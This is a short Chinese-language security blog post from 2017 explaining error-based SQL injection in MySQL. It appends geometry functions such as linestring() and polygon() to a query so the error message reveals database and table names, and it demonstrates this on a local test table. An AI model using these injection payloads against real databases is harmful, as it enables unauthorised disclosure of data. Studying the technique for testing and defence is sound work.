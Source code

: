 ```yaml
---
layout:     post
title:      mysql利用几何属性函数实现报错注入
subtitle:   
date:       2017-11-03
author:     sp4rk
header-img: 
catalog: true
tags:
    - mysql
    - sql injection
---
```




mysql空间数据库用于储存一些几何空间数据([mysql官方文档参考](!https://dev.mysql.com/doc/refman/5.5/en/gis-property-functions.html))，可以利用其中的几何属性函数进行报错注入


<!--more-->


```
mysql> select * from users where user_id=1;
+---------+------+------------+
| user_id | user | password   |
+---------+------+------------+
|       1 | test | zheshimima |
+---------+------+------------+
1 row in set (0.00 sec)

mysql> select * from users where user_id=1 and linestring(user_id);
ERROR 1367 (22007): Illegal non geometric '`test`.`users`.`user_id`' value found during parsing

mysql> select * from users where user_id=1 and polygon(user_id);
ERROR 1367 (22007): Illegal non geometric '`test`.`users`.`user_id`' value found during parsing

mysql> select * from users where user_id=1 and GeometryCollection(user_id);
ERROR 1367 (22007): Illegal non geometric '`test`.`users`.`user_id`' value found during parsing

mysql> select * from users where user_id=1 and multipoint(user_id);
ERROR 1367 (22007): Illegal non geometric '`test`.`users`.`user_id`' value found during parsing
```
我这里本地测试发现下面这四个函数可以使用
linestring()
polygon()
geometrycolection()
multipoint()
从官方文档中可以发现这些函数都是对空间几何值进行操作，当出现非法的非几何值就会报错，可以直接爆所在数据库名，表名
